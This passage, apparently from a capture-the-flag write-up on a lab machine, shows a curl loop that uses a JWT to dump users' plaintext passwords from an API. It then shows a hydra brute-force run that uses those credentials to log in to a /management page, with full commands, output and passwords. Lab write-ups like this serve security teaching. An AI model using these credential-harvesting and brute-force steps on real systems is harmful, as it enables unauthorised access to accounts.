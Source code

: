         "ID": "3",
        "name": "Yuri",
        "Role": "Beta Tester"
      },
      {
        "ID": "4",
        "name": "Dory",
        "Role": "Supporter"
      }
    ]



I can try each user and get their password:



    root@kali# for user in admin derry yuri dory; do curl http://10.10.10.137:3000/users/${user} -H "authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU5MTU5OTk3LCJleHAiOjE1NTkyNDYzOTd9.a5kDgyES1Ot7qRzArdz2ehnvANv9yYdzZczG5EIISRs"; echo; done
    {"name":"Admin","password":"WX5b7)>/rp$U)FW"}
    {"name":"Derry","password":"rZ86wwLvx7jUxtch"}
    {"name":"Yuri","password":"bet@tester87"}
    {"name":"Dory","password":"5y:!xa=ybfe)/QD"}



### Access /management

Armed with new usernames and passwords, I'll give the various logins
another show. I'll drop the usernames and passwords into files, and run
`hydra` to try them. For `/management`, it works:



    root@kali# hydra -L users -P passwords -s 80 -f 10.10.10.137 http-get /management
    Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-05-29 16:26:13
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 35 login tries (l:7/p:5), ~3 tries per task
    [DATA] attacking http-get://10.10.10.137:80/management
    [80][http-get] host: 10.10.10.137   login: Derry   password: rZ86wwLvx7jUxtch
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-05-29 16:26:14



Now I can access `/management`:

![](/img/1559162341909.png)
